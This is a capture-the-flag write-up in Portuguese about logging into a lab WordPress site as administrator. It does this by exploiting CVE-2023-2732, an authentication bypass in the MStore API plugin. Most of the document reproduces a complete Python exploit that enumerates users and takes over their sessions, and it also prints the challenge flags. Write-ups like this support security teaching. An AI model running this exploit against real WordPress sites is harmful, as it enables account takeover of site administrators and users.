




# CTF - Semana 3

**Objetivo**
Fazer login com uma conta de administrador

## 1. Reconhecimento
**Informação obtida através da navegação na aplicação web**



URL: http://143.47.40.175:5001/product/wordpress-hosting/  
  
**Possíveis utilizadores:**
- admin
- Orval Sanford

## 2. Pesquisa por Vulnerabilidades
Tipo de vulnerabilidade desejável: authentication bypass

- Wordpress 5.8.1: sem vulnerabilidades fáceis de explorar, sobretudo SQL injection;
- MStore API 3.9.0: **existe uma vulnerabilidade de authentication bypass que afeta esta versão**;
- WooCommerce plugin 5.7.1: não foram encontradas vulnerabilidades;
- Booster for WooCommerce plugin 5.4.4: não foram encontradas vulnerabilidades. De realçar a vulnerabilidade de authentication bypass que existia até à versão 5.4.3 (imediatamente anterior à da aplicação web).

**Vulnerabilidade encontrada:**  

ID: CVE-2023-2732  
Descrição: The MStore API plugin for WordPress is vulnerable to authentication bypass in versions up to, and including, 3.9.2. This is due to insufficient verification on the user being supplied during the add listing REST API request through the plugin. This makes it possible for unauthenticated attackers to log in as any existing user on the site, such as an administrator, if they have access to the user id.


**FLAG 1:**  
flag{CVE-2023-2732}

## 3. Exploit

Está disponível um [exploit](https://github.com/RandomRobbieBF/CVE-2023-2732/blob/main/mstore-api.py) para a vulnerabilidade encontrada:

``` py
import os
import click
import argparse
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
session = requests.Session()


def version_check(wordpress_url):
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3'}
    plugin_url = ""+wordpress_url+"/wp-content/plugins/mstore-api/readme.txt"
    response = requests.get(plugin_url, headers=headers,verify=False,timeout=30)
    if response.status_code == 200:
        content = response.text

        version_line = next((line for line in content.split('\n') if line.startswith('Stable tag:')), None)
        if version_line:
            version = version_line.split(':')[1].strip()
            if version >= '3.9.3':
                print("The plugin version is 3.9.3 or above.")
                exit()
            else:
                print("The plugin version is below 3.9.3.")
                return True
        else:
            print("Failed to find the version information in the readme.txt file.")
            exit()
    else:
        print("Failed to fetch the readme.txt file.")
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299'}
        response = session.get(f"{wordpress_url}/wp-json/", headers=headers,verify=False,timeout=30)
        if "add-listing" in response.text and "get-nearby-listings" in response.text:
           print("Was unable to read readme.txt but plugin might be installed")
           return True
        else:
           print("Plugin not installed")
           exit()

def fetch_usernames_rest_api(wordpress_url):
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299'}
    response = session.get(f"{wordpress_url}/wp-json/wp/v2/users", headers=headers,verify=False,timeout=30)
    if response.status_code == 200:
        users = response.json()
        return users
    else:
        print(f"Failed to fetch usernames using REST API. Error: {response.text}")
        return []

def select_user(users):
    click.echo("Select a user:")
    for user in users:
        click.echo(f"{user['id']}. {user['name']}")

    user_id = click.prompt("Enter the user ID", type=int)
    selected_user = next((user for user in users if user['id'] == user_id), None)
    if selected_user:
        return selected_user
    else:
        click.echo("Invalid user ID.")
        return None

def sendem(user_id, username):
    # Set up the request headers
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3'}
    # Send the request
    response = session.get(""+wordpress_url+"/wp-json/wp/v2/add-listing?id="+str(user_id)+"", headers=headers,verify=False,timeout=30)
    cookies = requests.utils.dict_from_cookiejar(response.cookies)
    # Check if 'wordpress_logged_in_' cookie is present
    if any(cookie.startswith('wordpress_logged_in_') for cookie in cookies):
       print("\n\n")
       print("Congratulations a vulnerable system has been found.\n")
       print("How to Exploit:\n")
       print("Visit the following url: "+wordpress_url+"/wp-json/wp/v2/add-listing?id="+str(user_id)+"")
       print("Visit  "+wordpress_url+" and you should be logged in as the user you have chosen.")
    elif response.status_code == 403 and "cf-cookie-error" in response.text:
        print("Sorry, Cloudflare is blocking us.")
    else:
        print("Sorry it does not appear and cookies have been returned.")
        print("Status Code: "+str(response.status_code)+"")
        for line in response.headers:
            line_parts = line.split(": ")
            print(f"    {line_parts[0]}: {line_parts[1]}")

    


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", required=True, help="URL of the WordPress site")
    args = parser.parse_args()
    wordpress_url = args.url
    version_check(wordpress_url)
    users = fetch_usernames_rest_api(wordpress_url)
    if users:
        selected_user = select_user(users)
        if selected_user:
            user_id = selected_user['id']
            username = selected_user['name']
            sendem(user_id, username)
```

De acordo com o README do repositório do exploit, é possível aceder a um URL na aplicação web de modo a poder fazer login com uma conta qualquer.



Podemos confirmar que a aplicação web é vulnerável ao correr o script:



## 4. Exploração da vulnerabilidade

Seguindo os passos descritos no exploit, ao visitar o URL apresentado, podemos entrar no site já como administradores. Temos de conhecer os possíveis utilizadores e, neste caso, usámos o utilizador 'admin', por evidenciar ser uma conta de administrador.

A aplicação web é mostrada com outro aspeto:



A partir do post privado, obtemos a flag pretendida.

**FLAG 2:**  
flag{byebye}